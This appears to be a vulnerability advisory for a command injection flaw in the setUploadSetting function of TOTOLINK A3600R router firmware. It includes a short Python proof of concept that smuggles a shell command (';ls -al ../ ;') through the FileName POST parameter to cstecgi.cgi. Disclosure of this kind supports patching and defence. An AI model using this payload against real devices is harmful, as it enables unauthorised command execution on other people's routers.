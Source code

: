 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setUploadSetting` function. The `v6` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the `sprintf` can cause a command injection vulnerability.

![image-20240721013957073](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721013957073.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"FileName":";ls -al ../ ;","topicurl":"setUploadSetting"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
